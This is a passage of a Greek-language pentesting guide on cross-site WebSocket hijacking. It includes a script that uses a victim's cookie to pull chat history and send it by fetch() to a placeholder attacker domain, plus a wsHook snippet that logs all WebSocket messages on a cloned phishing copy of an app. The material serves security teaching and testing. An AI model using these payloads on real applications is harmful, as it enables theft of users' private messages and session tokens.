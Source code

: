 Οι επιτιθέμενοι μπορούν να εκμεταλλευτούν αυτό φιλοξενώντας μια **κακόβουλη ιστοσελίδα** που ξεκινά μια διασυνοριακή σύνδεση WebSocket σε μια ευάλωτη εφαρμογή. Ως εκ τούτου, αυτή η σύνδεση θεωρείται μέρος της συνεδρίας του θύματος με την εφαρμογή, εκμεταλλευόμενη την έλλειψη προστασίας CSRF στον μηχανισμό διαχείρισης συνεδριών.

### Simple Attack

Σημειώστε ότι όταν **ιδρύεται** μια **websocket** σύνδεση, το **cookie** **αποστέλλεται** στον διακομιστή. Ο **διακομιστής** μπορεί να το χρησιμοποιεί για να **σχετίσει** κάθε **συγκεκριμένο** **χρήστη** με τη **συνεδρία websocket** του βασισμένο στο αποσταλθέν cookie.

Έτσι, αν για **παράδειγμα** ο **websocket** **διακομιστής** **επιστρέψει το ιστορικό της συνομιλίας** ενός χρήστη αν αποσταλεί ένα μήνυμα με "**READY"**, τότε μια **απλή XSS** που ιδρύει τη σύνδεση (το **cookie** θα αποσταλεί **αυτόματα** για να εξουσιοδοτήσει τον θύμα χρήστη) **στέλνοντας** "**READY**" θα είναι σε θέση να **ανακτήσει** το ιστορικό της **συνομιλίας**.
```markup
<script>
websocket = new WebSocket('wss://your-websocket-URL')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
websocket.send("READY"); //Send the message to retreive confidential information
}
function handleReply(event) {
//Exfiltrate the confidential information to attackers server
fetch('https://your-collaborator-domain/?'+event.data, {mode: 'no-cors'})
}
</script>
```
### Cross Origin + Cookie with a different subdomain

Σε αυτή την ανάρτηση του blog [https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/](https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/) ο επιτιθέμενος κατάφερε να **εκτελέσει αυθαίρετο Javascript σε ένα υποτομέα** του τομέα όπου γινόταν η επικοινωνία μέσω web socket. Επειδή ήταν **υποτομέας**, το **cookie** αποστέλλονταν, και επειδή το **Websocket δεν έλεγξε σωστά την προέλευση**, ήταν δυνατό να επικοινωνήσει μαζί του και να **κλέψει tokens από αυτό**.

### Stealing data from user

Αντιγράψτε την web εφαρμογή που θέλετε να μιμηθείτε (τα αρχεία .html για παράδειγμα) και μέσα στο σενάριο όπου γίνεται η επικοινωνία μέσω websocket προσθέστε αυτόν τον κώδικα:
```javascript
//This is the script tag to load the websocket hooker
<script src='wsHook.js'></script>

//These are the functions that are gonig to be executed before a message
//is sent by the client or received from the server
//These code must be between some <script> tags or inside a .js file
wsHook.before = function(data, url) {
var xhttp = new XMLHttpRequest();
xhttp.open("GET", "client_msg?m="+data, true);
xhttp.send();
}
wsHook.after = function(messageEvent, url, wsObject) {
var xhttp = new XMLHttpRequest();
xhttp.open("GET", "server_msg?m="+messageEvent.data, true);
xhttp.send();
return messageEvent;
}
```
Τώρα κατεβάστε το αρχείο `wsHook.js` από [https://github.com/skepticfx/wshook](https://github.com/skepticfx/wshook) και **αποθηκεύστε το μέσα στον φάκελο με τα αρχεία ιστού**.\
Εκθέτοντας την εφαρμογή ιστού και κάνοντάς την να συνδεθεί ένας χρήστης, θα μπορείτε να κλέψετε τα μηνύματα που αποστέλλονται και λαμβάνονται μέσω websocket: